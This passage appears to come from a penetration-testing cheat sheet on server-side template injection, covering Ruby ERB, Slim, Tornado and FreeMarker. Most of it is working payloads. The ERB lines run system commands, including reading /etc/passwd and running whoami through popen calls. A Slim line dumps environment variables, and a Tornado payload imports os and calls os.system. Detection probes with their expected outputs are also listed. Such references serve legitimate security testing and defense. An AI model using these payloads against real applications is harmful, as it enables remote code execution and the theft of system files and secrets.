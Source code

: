 #### Ruby - Code execution

Execute code using SSTI for ERB engine.

```
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for Slim engine.

```
#{ %x|env| }
```



## Tornado Template

{% embed url="https://www.tornadoweb.org/en/stable/template.html" %}

{% embed url="https://ajinabraham.com/blog/server-side-template-injection-in-tornado" %}

### Tornado (Python)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{foobar}} = Error`
* `{{7*'7'}} = 7777777`

```python
{% raw %}
{% import foobar %} = Error
{% import os %}

{% import os %}
{% endraw %}

{{os.system('whoami')}}
{{os.system('whoami')}}
```



## FreeMarker Template Injection

### FreeMarker (Java)

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `#{7*7} = 49 -- (legacy)`
* `${7*'7'} Nothing`
* `${foobar}`
